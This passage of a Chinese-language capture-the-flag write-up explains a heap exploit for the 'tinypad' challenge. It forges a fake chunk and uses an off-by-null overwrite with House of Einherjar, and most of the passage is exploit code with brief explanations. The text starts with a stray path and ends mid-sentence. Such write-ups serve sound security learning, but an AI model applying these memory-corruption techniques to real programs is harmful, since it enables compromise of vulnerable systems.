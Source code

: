 	dbg()
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/2c42cb785bac44009458a23a58d7351a.png)![在这里插入图片描述](https://img-blog.csdnimg.cn/e4a80c077a944e0aaf438d8d41d87caf.png)


在 tinypad 的前0x100字节中伪造 chunk。当我们再次申请时，那么就可以控制4个 memo 的指针和内容了。

	add(0x100)
	add(0x100)
	
	#dbg()
	
	#四个chunk与top chunk合并
	free(4)
	free(1)
	free(2)
	free(3)
	
	#dbg()
	#empty now 
	
	add(0x100,'a'*0x100)
	edit(1,b'a'*0x30+p64(0)+p64(0x41)+p64(0x602070)*2+b'\x00'*0x20+p64(0x40))
	
	#dbg()


	free(1)


	add(0x10) #1
	add(0xf0) #2
	add(0x10) #3
	add(0x100,'a'*0x100) #4
之后free(1)，再申请0x18大小的chunk_1，利用add函数里自定义的read函数的off-by-null，可以将chunk_2的pre_size改为chunk数组附近0x602070处，再次free(2)，这样利用House of einherjar，可以将free的 chunk转移到0x602070（chunk_2的头指针）处，就可以0x602040（chunk_1的头指针）处形成我们提前构造好的chunk	

	#edit(1,b'a'*0x30+p64(0)+p64(0x41)+p64(0x602070)*2+b'\x00'*0x20+p64(0x40))

	
	free(1)
	target = heapbase+0x20-0x602070
	add(0x18,b'a'*0x10+p64(target)) #1
	
	dbg()

 
![在这里插入图片描述](https://img-blog.csdnimg.cn/e81bf64023f74d5c8fbec47c042304c2.png)
再free（2），编辑chunk_4就相当于在0x602040处的chunk开始编辑，将

	free(2)

	edit(4,b'a'*0x30+p64(0)+p64(0x101)+p64(main_arena_88)*2)
	
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/716576b4406d4a1ca57028748e1549e4.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e9b6cca861874a2e970bba4d84c1e939.png)

